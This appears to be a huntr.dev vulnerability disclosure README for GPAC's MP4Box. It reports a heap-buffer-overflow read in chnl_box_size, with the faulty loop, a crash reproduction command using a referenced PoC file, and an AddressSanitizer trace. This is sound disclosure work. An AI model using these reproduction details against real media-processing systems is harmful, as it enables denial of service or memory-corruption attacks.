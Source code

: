 # README

## POC URL
https://huntr.dev/bounties/fe778df4-3867-41d6-954b-211c81bccbbf



## Run Command
Environment
Distributor ID: Debian
Description:    Debian GNU/Linux bookworm/sid
Version
I checked against the latest release as of 09/28/23 the current master branch at commit c5603fa8de0e7d4460718e28f90989ffdf925494 .

Description
This AddressSanitizer output is indicating an OOB read of invalid heap memory. This exception occurred in the function chnl_box_size at line 12758 in the file src/isomedia/box_code_base.c. This error is caused because the variable ptr->layout.channels_count can be larger than the actual number of layouts in ptr->layout.layouts[] and larger than the maximum number of layouts, which is 64. The struct that defines the maximum layouts is in the file include/gpac/isomedia.h at lines 1464-1486.

src/isomedia/box_code_base.c:lines 12756-12760

for (i=0; i<ptr->layout.channels_count; i++) {
    s->size+=1;
    if (ptr->layout.layouts[i].position==126)
        s->size+=3;
}
Specifically this is the line that causes the asan to trigger when i > 64.

src/isomedia/box_code_base.c:lines 12758

if (ptr->layout.layouts[i].position==126)

## POC
./MP4Box -dash 1000 ./POC4_min
POC File

## ASAN
[Dasher] No template assigned, using $File$_dash$FS$$Number$
Unknown CICP mapping for channel config 12336/0.0
[Dasher] Segment 1 is empty - pid end of stream 1
=================================================================
==4084326==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x612000001980 at pc 0x7ffff63b21d8 bp 0x7fffffff3dc0 sp 0x7fffffff3db8
READ of size 1 at 0x612000001980 thread T0
    #0 0x7ffff63b21d7 in chnl_box_size /path/gpac/src/isomedia/box_code_base.c:12758:32
    #1 0x7ffff6414b7b in gf_isom_box_size_listing /path/gpac/src/isomedia/box_funcs.c:2113:9
    #2 0x7ffff6414b7b in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2125:6
    #3 0x7ffff6414b7b in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #4 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #5 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #6 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #7 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #8 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #9 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #10 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #11 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #12 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #13 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #14 0x7ffff6414bcd in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #15 0x7ffff6414bcd in gf_isom_box_array_size /path/gpac/src/isomedia/box_funcs.c:540:8
    #16 0x7ffff6415006 in gf_isom_box_size /path/gpac/src/isomedia/box_funcs.c:2131:7
    #17 0x7ffff6491ba9 in WriteMoovAndMeta /path/gpac/src/isomedia/isom_store.c:474:7
    #18 0x7ffff648bb95 in WriteFlat /path/gpac/src/isomedia/isom_store.c:1388:7
    #19 0x7ffff6489044 in WriteToFile /path/gpac/src/isomedia/isom_store.c:2571:9
    #20 0x7ffff650cb0d in gf_isom_finalize_for_fragment /path/gpac/src/isomedia/movie_fragments.c:161:7
    #21 0x7ffff70eefc5 in mp4_mux_initialize_movie /path/gpac/src/filters/mux_isom.c:6017:6
    #22 0x7ffff70eefc5 in mp4_mux_process_fragmented /path/gpac/src/filters/mux_isom.c:6338:7
    #23 0x7ffff70e5ad3 in mp4_mux_process /path/gpac/src/filters/mux_isom.c:7273:14
    #24 0x7ffff6da12a3 in gf_filter_process_task /path/gpac/src/filter_core/filter.c:2971:7
    #25 0x7ffff6d6eceb in gf_fs_thread_proc /path/gpac/src/filter_core/filter_session.c:2076:3
    #26 0x7ffff6d6ce3f in gf_fs_run /path/gpac/src/filter_core/filter_session.c:2376:3
    #27 0x7ffff661c9da in gf_dasher_process /path/gpac/src/media_tools/dash_segmenter.c:1236:6
    #28 0x5555556c26dc in do_dash /path/gpac/applications/mp4box/mp4box.c:4831:15
    #29 0x5555556b3b6e in mp4box_main /path/gpac/applications/mp4box/mp4box.c:6245:7
    #30 0x7ffff58461c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #31 0x7ffff5846284 in __libc_start_main csu/../csu/libc-start.c:360:3
    #32 0x5555555dbdd0 in _start (/path/gpac/build3_asan/bin/gcc/MP4Box+0x87dd0) (BuildId: 0637ef26d76ba7d7d9f848431c3188bb4dc7e23e)

0x612000001980 is located 0 bytes to the right of 320-byte region [0x612000001840,0x612000001980)
allocated by thread T0 here:
    #0 0x55555565ec1e in malloc (/path/gpac/build3_asan/bin/gcc/MP4Box+0x10ac1e) (BuildId: 0637ef26d76ba7d7d9f848431c3188bb4dc7e23e)
    #1 0x7ffff63b178a in chnl_box_new /path/gpac/src/isomedia/box_code_base.c:12712:2
    #2 0x7ffff64183d5 in gf_isom_box_new /path/gpac/src/isomedia/box_funcs.c:1896:9
    #3 0x7ffff64183d5 in gf_isom_box_new_parent /path/gpac/src/isomedia/box_funcs.c:2351:14

SUMMARY: AddressSanitizer: heap-buffer-overflow /path/gpac/src/isomedia/box_code_base.c:12758:32 in chnl_box_size
Shadow bytes around the buggy address:
  0x0c247fff82e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c247fff82f0: 00 00 00 00 00 00 00 00 00 00 fa fa fa fa fa fa
  0x0c247fff8300: fa fa fa fa fa fa fa fa 00 00 00 00 00 00 00 00
  0x0c247fff8310: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c247fff8320: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c247fff8330:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c247fff8340: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c247fff8350: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c247fff8360: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c247fff8370: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c247fff8380: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==4084326==ABORTING